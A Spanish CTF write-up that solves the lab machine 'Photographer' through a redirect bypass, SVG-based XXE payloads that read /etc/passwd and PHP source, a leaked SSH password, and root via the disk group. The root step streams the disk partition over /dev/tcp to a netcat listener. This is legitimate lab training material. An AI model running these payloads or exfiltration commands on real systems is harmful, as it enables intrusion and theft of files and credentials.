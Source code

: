 # 🖥️ Write-Up: [PHOTOGRAPHER](https://labs.thehackerslabs.com/machine/142)

## 📌 Información General
    - Nombre de la máquina: Photographer
    - Plataforma: The Hackers Labs
    - Dificultad: Avanzado
    - Creador: d4redevil
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

Nuestra ip es la **10.0.5.5**

La máquina Photographer tiene la ip **10.0.5.9**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina utilizando la herramienta **nmap**.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los puertos **22** y **80**. Ahora vamos a ver que versiones y servicios se están ejecutando en ellos.

![target](screenshots/target.png)

- El puerto 22 está ejecutando un servicio de OpenSSH.  
- El puerto 80 está ejecutando un servicio web con Apache.

**Nota:** Si se enumeran los puertos por **udp** se obtiene información útil, yo no lo hice, así que una parte de la intrusión cambia un poco.

### Puerto 80

Si accedemos con el navegador vemos un blog de fotografía. En él, tenemos un posible nombre de usuario **ethan**.

![home-80](screenshots/home-80.png)

Empleamos la herramienta **gobuster** para enumerar subdirectorios del blog.

![fuzzing](screenshots/fuzzing.png)

Tenemos un subdirectorio **/admin**, si accedemos a él, vemos un panel de login pero no disponemos de credenciales.

![login](screenshots/login.png)

Volvemos a enumerar subdirectorios pero esta vez dentro de **/admin** .

![login-fuzzing](screenshots/login-fuzzing.png)

- **db.php** no carga nada de contenido.
- **upload.php** nos devuelve un **Internal Server Error**
- **admin.php** nos llama la atención el tamaño de su respuesta, ya que se aplica una redirección a **index.php** pero el número de caracteres que devuelve es superior al de ese archivo.

## 🔥 Explotación

Abrimos **Burpsuite**, activamos el proxy de burpsuite en el navegador e interceptamos la petición a **/admin/admin.php**. 

Hacemos click derecho sobre la petición a **admin.php** y seleccionamos **Do intercept > Responde to this request** y pulsamos en **Forward** para mandar la petición.

![burpsuite-response](screenshots/burpsuite-response.png)

Ahora podemos ver la respuesta y si la revisamos, observamos que se está filtrando el contenido de **admin.php**

![admin-leak](screenshots/admin-leak.png)

Para poder acceder a él, vamos a cambiar el códido **302 Found** de la respuesta por un código **200 OK** y le damos a **Forward**.

![change-code](screenshots/change-code.png)

Ahora desde el navegador y con el proxy de burpsuite activado podemos ver el contenido.

![browser-admin](screenshots/browser-admin.png)


Tenemos un panel en el que podemos subir fotos. Vamos a analizar esta petición con el **Repeater** para ver si podemos inyectar código.

Tras varias pruebas de subida de archivos, encontramos una forma de ejecutar una **XXE Injection** utilizando una imagen svg. 

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Enviamos la inyección con un **Content-Type: image/svg+xml** y conseguimos ver el **/etc/passwd**. El cuál nos confirma al usuario **ethan** en el servidor.

![etc-passwd](screenshots/etc-passwd.png)

Vamos a leer el contenido de los archivos **php** que hemos encontrado aplicando fuzzing. Para poder hacerlo aplicamos un **wrapper** de php que nos mostrará el contenido del archivo en base64.

```
php://filter/convert.base64-encode/resource=<archivo>
```

Lo introducimos en nuestra **XXE Injection** cambiando archivo por **upload.php** y posteriormente por **db.php**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

El contenido que nos interesa está en **db.php**.

![db-base64](screenshots/db-base64.png)

De este modo, en la respuesta tenemos en base64 el contenido de los archivos, ahora solo queda decodificarlos de base64.

Tras revisarlos, encontramos una contraseña de una base de datos en **db.php**, la cual resulta ser la contraseña de ssh del usuario **ethan**.

![db](screenshots/db.png)

## 🔑 Acceso SSH

Accedemos por ssh con **ethan:pjtF0533OPiSMQTGZacZY6jy$**

```bash
ssh ethan@10.0.5.9
```

Aquí tenemos la primera flag:

![user-flag](screenshots/user-flag.png)

## 🧗 Escalada de Privilegios
### Root

Si revisamos los grupos a los que pertenece nuestro usuario con el comando **id** vemos que estamos en el grupo **disk**, el cual nos da la posibilidad de leer el contenido de las particiones del disco, eso sí, al no disponer de una herramienta como **debugfs** únicamente podemos ver el contenido bruto.

Por lo tanto, vamos a realizar la escalada con un método bastante "bruto" y poco óptimo pero funciona.

Míramos en que partición está montado el contenido del sistema con `df -h`. 

![df](screenshots/df.png)

Está en **/dev/sda1**, por lo que nos vamos a pasar su contenido a nuestro máquina, tomará algo de tiempo ya que son casi **20GB**. 

Nos ponemos en escucha en nuestra máquina con **netcat** y redirigimos su salida a un archivo llamado **data**

```bash
nc -nlvp 100 > data
```

Y en la máquina **Photographer** ejecutamos
```bash
cat /dev/sda1 > /dev/tcp/10.0.5.5/100
```

Tras un rato, ya tenemos en nuestra máquina esa partición del disco, ahora creamos un nuevo directorio en nuestro directorio actual, que llamaremos **photo**, para montar en él esta partición con **mount**

```bash
sudo mount data photo
```

Una vez hecho, tenendremos todo el contenido de la máquina en ese directorio y con el usuario **root** de **nuestra máquina** lo podremos ver.

![machine-content](screenshots/machine-content.png)

Ahora vamos a obtener la **id_rsa** que está en ese directorio root.

![id_rsa](screenshots/id-rsa.png)

Una vez obtenida la **id_rsa** desmontamos la partición creada.

`sudo umount <ruta de la partición de la máquina Photographer>`

Y nos conectamos como el usuario **root**.

![root](screenshots/root.png)